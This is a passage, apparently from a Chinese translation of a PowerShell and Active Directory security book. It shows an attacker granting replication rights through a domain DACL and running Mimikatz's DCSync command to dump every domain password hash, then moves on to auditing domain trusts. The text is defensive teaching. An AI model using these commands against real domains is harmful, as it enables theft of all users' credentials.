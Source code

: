 最后，我们使用攻击者的身份、访问权限、控制类型、继承性以及预定义的 GUID 值创建一个 AD 访问规则。然后，我们使用域名获取域目录对象的安全描述符，将访问规则添加到安全描述符的 DACL 中，并保存对目录对象的更改：

```
$Ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule ($AttackerIdentity, $ObjRights, $ObjControlType , $ObjInherit, $ReplAllGUID)
$Dacl = [ADSI]"LDAP://$domainDN"
$Dacl.psbase.ObjectSecurity.AddAccessRule($Ace)
$Dacl.psbase.CommitChanges()
```

现在，访问权限已相应配置，攻击者可以使用像 Mimikatz 这样的工具提取密码哈希值。

Mimikatz 是一款臭名昭著的工具，最初由 Benjamin Delpy 编写，DCSync 功能由 Vincent le Toux 编写。你可以从 GitHub 下载源代码以及二进制文件：[`github.com/gentilkiwi/mimikatz/wiki`](https://github.com/gentilkiwi/mimikatz/wiki)。

一旦下载了二进制文件或使用源代码构建，导航到 **mimikatz.exe** 文件所在的文件夹并执行它：

```
> .\mimikatz.exe
```

Mimikatz 被加载，现在可以输入你的 **mimikatz** 命令。以下命令允许你执行 DCSync 攻击：

```
> lsadump::dcsync /all /csv
```

理解、监控和保护域 ACL 对于防止未授权访问和数据泄露至关重要。然而，考虑到域信任同样重要，若配置和监控不当，域信任可能会带来额外的安全风险。

## 域信任

信任是将林和域相互连接的好方法。通过信任，你可以访问另一个林的资源，而无需在该林中拥有帐户。关于信任的更多信息可以在这里找到：[`docs.microsoft.com/en-us/azure/active-directory-domain-services/concepts-forest-trust`](https://docs.microsoft.com/en-us/azure/active-directory-domain-services/concepts-forest-trust)。

但信任也带来了更多人员访问你资源和可能访问你身份的风险。因此，你应该定期审计可用的信任，并删除不再需要的信任。

使用**Get-ADTrust** cmdlet，它是**ActiveDirectory**模块的一部分，你可以查看从你的域到其他域/林建立的信任：

```
> Get-ADTrust -Filter *
```

除了使用**Get-ADTrust** cmdlet，你还可以使用**[adsisearcher]**加速器来查看已建立的信任，特别是在**ActiveDirectory**模块不可用的情况下。使用以下命令来过滤受信任的域：

```
> ([adsisearcher]"(objectClass=trusteddomain)").FindAll()
```

信任可以有多个方向：

+   **双向**：两个域/林相互信任。用户可以访问两个域/林中的资源。

+   **入站**：当前的域/林是受信任的域或林。这意味着来自受信任域/林的用户可以访问当前域/林中的资源，但反之则不行。

+   **出站**：当前的域/林是被信任的域/林；来自该域/林的用户可以访问另一个被信任的域/林中的资源。

对于单向信任，如果我们说**Company**域信任**PartnerCompany**域，这意味着来自**PartnerCompany**域的定义用户可以访问**Company**域中的资源，但反之则不行。
